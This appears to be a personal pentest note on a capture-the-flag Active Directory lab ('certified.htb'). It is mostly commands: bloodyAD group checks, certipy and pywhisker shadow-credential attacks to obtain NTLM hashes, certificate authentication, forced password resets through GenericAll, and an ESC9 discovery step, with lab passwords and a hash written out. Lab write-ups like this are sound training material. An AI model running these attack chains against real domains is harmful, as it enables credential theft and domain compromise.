```
bloodyAD -d certified.htb -u judith.mader -p judith09 --host 10.129.239.104 get object "CN=Management,CN=Users,DC=certified,DC=htb"
```
![[Pasted image 20250324194426.png]]
- verify judith successfully added to management group
```
certipy shadow auto -username judith.mader@certified.htb -password judith09 -account management_svc -target certified.htb -dc-ip 10.10.11.41
```
- retrieve hash for management_svc
- can also use pywhisker instead:
```
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
```
![[Pasted image 20250324195017.png]]
```
openssl pkcs12 -export -out management_svc_cert.pfx -inkey management_svc_cert.pem_priv.pem -in management_svc_cert.pem_cert.pem -nodes -password pass:
```
![[Pasted image 20250324195057.png]]
```
certipy auth -pfx management_svc_cert.pfx -u management_svc -domain certified.htb -dc-ip 10.129.239.104 -debug
```
![[Pasted image 20250324195151.png]]
```
sudo systemctl stop systemd-timesyncd
```
- disables ntp from overriding my time sync
```
sudo ntpdate -u 10.129.239.104
```
- sets ntp to sync with DC-01 target server

##### If user (Olivia) has GenericAll permissions over another user (Michael)
```
net user Michael Password123
```
- Change benjamin's password if currently owned user has GenericAll over benjamin
	- then login as that user and spray all open services with new creds
- can also use bloodyAD ForceChangePassword command below (if no shell)
- if neither of those work, try certipy to get hash:
```
certipy shadow auto -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -account ca_operator -target certified.htb -dc-ip 10.10.11.41
```
![[Pasted image 20250324195505.png]]
- using management_svc's GenericAll over ca_operator to write shadow credentials and get the NTLM hash of ca_operator
- if that doesn't work, try running `certipy find` on the account you are targeting even with wrong password:
```
certipy find -dc-ip 10.10.11.41 -ns 10.10.11.41 -u ca_operator@certified.htb -p '12345678' -vulnerable -stdout
```
![[Pasted image 20250324200006.png]]
![[Pasted image 20250324200016.png]]
- shows vulnerable to [[AD#ESC9]]
- 